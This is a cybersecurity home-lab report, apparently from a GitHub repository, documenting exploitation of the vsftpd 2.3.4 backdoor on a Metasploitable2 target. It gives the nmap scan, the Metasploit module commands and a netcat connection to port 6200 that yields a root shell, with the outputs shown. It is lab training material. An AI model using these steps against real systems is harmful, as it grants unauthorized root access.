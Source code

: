 # 📊 Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

### 🎯 Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.

---

### 💽 Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |

---

### 🔎 Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

---

### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan

```bash
nmap -sV 192.168.56.102 -p 21
```

**Result**:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

#### 2. Exploit with Metasploit

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run
```

**Result**:

```
[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

```bash
nc 192.168.56.102 6200
whoami
```

**Result**:

```
root
```

---

### ✅ Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.

### 📸 Screenshots

* Nmap scan result: ![Nmap_Scan](nmap_scan_result.png)
* Metasploit output and Netcat shell with 'root' : ![metasploit_output](exploit_result.png)
* attacker network setup: ![attacker_net](attacker-network-set.png)
* kali ping target : ![kali-ping](kali-ping-target.png)
* metasploitable network setup: ![metasploit_net](mata-network-set.png)

---

### 📂 Files Included

* `vsftpd_exploit.txt` – Exploit commands
* `screenshots/lab1/` – Screenshots folder

---
## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot: ![metasploit_output](exploit_result.png)

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
